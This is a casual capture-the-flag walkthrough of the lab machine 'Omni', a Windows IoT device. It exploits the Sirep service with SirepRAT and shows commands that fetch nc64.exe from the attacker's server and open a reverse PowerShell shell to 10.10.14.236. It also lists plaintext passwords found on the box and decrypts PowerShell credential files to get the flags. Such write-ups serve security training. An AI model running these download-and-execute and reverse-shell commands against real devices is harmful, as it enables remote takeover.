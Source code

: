 # Omni

> Ip: 10.10.10.204
> Difficulty: Easy
> OS: ?

So let's first nmap this (-A -sC -sV) and apparently this is a Windows based OS, from here i've deep down a lil bit with the information i was given and after a few research I found out that it could be an IoT object, let me explain:
I've been given this: `basic realm: Windows Device Portal` and after a few research in the doc the "IoT" subject is really linked to it.

## Get a foothold

As i know what my box is, let's try to get in, with the following [tool](https://github.com/SafeBreach-Labs/SirepRAT), I'll be able to do stg ;)
Following the doc I can simply upload a file, so let's upload a nc64.exe on the remote!
(Do the usual: create a webserver, upload nc with SirepRAT and trigger it with SirepRAT again)

```py
### Upload on the IoT object
python2 ../SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args " /c powershell Invoke-WebRequest -OutFile C:\\Windows\\System32\\nc64.exe -Uri http://10.10.14.236:8000/nc64.exe"
### trigger nc64.exe
python2 ../SirepRAT/SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c C:\Windows\System32\nc64.exe 10.10.14.236 1337 -e powershell.exe" --v
```

## Find the user.txt  

After checking the $env:path we find different things and you can go to the PowerShell folder, so we can go in it and do a `ls -force` (the same as ls -a for UNIX) and then `type r.bat` (eq. to cat for UNIX )  
And there is this in:  

"""
net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz
"""

## Back to the website

We can remember a web server on the 8080 port so let's have a check as it was password protected and type the app with his creds.  
Under process>Execute Command and then from here you can trigger the nc64.exe (on a different port as we want to keep the other one) and boom we've a powershell as "App"  
Let's type $HOME to get his home, and then from here you can just read user.txt  
But wait ....

## Encryption

And shit it is encrypted, but it doesn't seems really hard to determine the encryption type.  
After a few googling, we can find what is it: [Info](https://devblogs.microsoft.com/scripting/decrypt-powershell-secure-string-password/)  

So apparently you just have to get the xml and extract the password from it so let's go:

```bat
$credentials=Import-CliXml -Path C:\Data\Users\app\user.txt  
$credentials.GetNetworkCredential().Password
```

## Root.txt

And sad things, the root.txt is attainable the exact same way as the app!  
Use the creds we get in the r.bat, connect with admin, do the exact same thing, and boom !
